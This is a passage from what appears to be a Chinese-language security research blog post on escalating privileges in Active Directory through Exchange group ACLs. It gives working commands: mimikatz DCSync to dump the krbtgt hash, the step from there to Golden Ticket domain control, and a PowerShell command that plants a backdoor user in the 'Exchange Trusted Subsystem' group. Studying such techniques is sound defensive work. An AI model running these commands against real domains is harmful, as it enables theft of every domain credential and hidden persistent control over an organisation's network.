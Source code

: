 接下来，在另一台域内主机上完成所有提权的操作

#### 1.登录用户testa

cmd：

```
echo 123456789 | runas /user:test\testa cmd
```

如果在测试过程中，第一次将测试用户testa添加到`Exchange Trusted Subsystem`中，那么用户testa需要重新登录才能继承WriteDACL权限

查看用户testa所在的组：

```
whoami /groups
```

发现用户testa成功加入`Exchange Trusted Subsystem`组，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-22/3-2.png)

#### 2.使用mimikatz的DCSync功能导出用户krbtgt的hash

cmd：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:krbtgt /csv" exit
```

成功导出用户krbtgt的hash，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-22/3-3.png)

接下来可以使用域用户krbtgt的hash制作Golden Ticket，登录域控制器，获得对整个域的控制权限

提权成功

经过多次测试，得出以下结论：

如果获得了以下三个组内任意用户的权限，都能够利用DCSync导出域内所有用户hash

组名如下：

- Exchange Trusted Subsystem
- Exchange Windows Permission
- Organization Management

## 0x03 建立提权后门的方法
---

如果获得了整个域的控制权限，可以利用Exchange中的ACL作为域提权的后门

### 方法1：直接在Exchange的三个组内添加后门用户

这里以`Exchange Trusted Subsystem`为例

Powershell命令如下：

```
Import-Module ActiveDirectory
Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members testa
```
